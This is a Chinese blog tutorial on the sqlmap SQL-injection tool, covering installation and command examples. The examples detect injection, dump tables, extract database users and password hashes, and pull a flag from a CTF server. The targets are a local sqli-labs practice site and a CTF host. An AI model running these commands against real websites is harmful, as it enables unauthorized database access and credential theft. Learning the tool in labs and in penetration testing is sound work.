```yaml
---
title: 渗透测试工具之sqlmap
date: 2020-06-28 21:54:31
tags:
    - 渗透测试工具
---
```


# 简介
sqlmap是一个工具，一个用来做sql注入攻击的工具。SQLmap是一款用来检测与利用SQL注入漏洞的免费开源工具，有一个非常棒的特性，即对检测与利用的自动化处理（数据库指纹、访问底层文件系统、执行命令）。Sqlmap内置很多绕过插件，支持的数据库是MySQL、Oracle、postgreSQL、MicrosftSQL server、IBM DB2等

<!--more-->

SQLMap采用以下五种独特的SQL注入技术:

>1、基于布尔值的盲注，即根据返回页面判断条件真假的注入
2、基于时间的盲注，既不能根据页面返回的内容判断任何信息，要利用条件语句查看时间延迟语句是否已经执行来判断
3、基于报错注入，及页面会返回错误信息，或者把注入的语句的结果直接返回到页面中
4、联合查询注入，在可以使用union的情况下的注
5、堆查询注入，可以同时执行多条语句时注入

SQLMap的强大功能包括数据库指纹识别，数据库枚举，数据库提取，访问目标文件夹系统，并在获取完全的操作权限时实行任意指令命令，SQLMap的功能十分强大，当其他注入工具不能利用SQL注入漏洞时，使用SQLMap会有意向不到的结果

SQL注入请参考：
[什么是SQL注入漏洞](http://www.codesecurity.cn/2020/06/25/%E4%BB%80%E4%B9%88%E6%98%AFSQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E/)


# 安装
官方网站下载
http://sqlmap.org/
或者github下载：
https://github.com/sqlmapproject/sqlmap

>wget ```https://codeload.github.com/sqlmapproject/sqlmap/legacy.tar.gz/master``` //下载sqlmap
tar zxvf master  //解压压缩包
cd sqlmapproject-sqlmap-310d79b/   //进入解压目录
python sqlmap.py -h  //开始使用


# 用法
执行sqlmap.py -h可以查看用法。

![sqlmap](sqlmap.png)

## GET注入
>sqlmap.py -u "url" 检测存在不存在注入
sqlmap.py -u "url" --tables    列出数据库的表
sqlmap.py -u "url" --columns -T admin    列出admin的内容
sqlmap.py -u "url" --dump -T admin "useradmin,password"    列出useradmin password的内容


## POST注入
>sqlmap.py -u ```www.xxx.com/index.php``` --data "user=1&pass=1" --dbs 指定post参数注入出数据库
sqlmap.py -u ```www.xxx.com/index.php``` --forms    sqlmap自动查找网页上的表单，并注入
sqlmap.py -r 1.txt -p user 用burp抓包，保存为1.txt 然后用-r参数注入，用-p参数来指定网页上的参数
sqlmap.py -r xxx.txt –dbs /*xxx.txt内容为HTTP请求*/
sqlmap.py -u "url" --user 列出数据库的所以用户
sqlmap.py -u "url" --passwords 列出数据库用户的密码
sqlmap.py -u "url" --current-db 查看当前使用网站数据库的名字
sqlmap.py -u "url" --current-user 查看当前网站数据库的用户名称
sqlmap.py -u "url" --is-dba 查看当前用户是否是管理员权限   True代表有，如果没有的话就是False


## 举例
1）检测目标网址是否存在注入
```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1
```

2）获取数据库指定的字段内容
```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 -D security -T users -C id,password,username --dump
# -D 指定数据库 -T 数据库下的表名 -C 指定所需要的列 --dump获取所有信息
```


3）获取数据库中所有用户
该命令的作用是列出数据库的所有用户，在当前用户有权限读取包含所有用户的表的权限时，使用该命令就可以列出所有的管理用户
```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 --users
```

4）获取数据库的密码
该命令的作用是列出数据库的用户的密码，如果当前用户有读取包含用户密码的权限，sqlmap会列出用户，然后列出hash，并尝试破解
```
sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1 --passwords
```

## CTF爆破flag
>```
Sqlmap.py -u http://123.206.87.240:8002/chengjidan/index.php --data="id=1" --dbs   //爆库名
Sqlmap.py -u http://123.206.87.240:8002/chengjidan/index.php --data="id=1" -D skctf_flag --table  //爆表名
Sqlmap.py -u http://123.206.87.240:8002/chengjidan/index.php --data="id=1" -D skctf_flag -T fl4g --columns //爆字段
Sqlmap.py -u http://123.206.87.240:8002/chengjidan/index.php --data="id=1" -D skctf_flag -T fl4g -C skctf_flag --dump
//爆数据
```

